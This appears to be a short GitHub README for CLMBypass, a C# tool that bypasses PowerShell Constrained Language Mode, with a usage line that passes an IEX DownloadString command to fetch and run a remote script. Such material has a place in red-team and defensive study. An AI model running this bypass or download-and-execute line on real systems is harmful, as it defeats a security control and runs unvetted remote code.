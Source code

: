 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article.

### contents
- Program.cs
  - C# source code
- CLMB.exe
  - Compiled as PE32 .NET Framework 4.5
  
## usage
```
C:\Users\CLMUser\Downloads>.\CLMB.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"
```
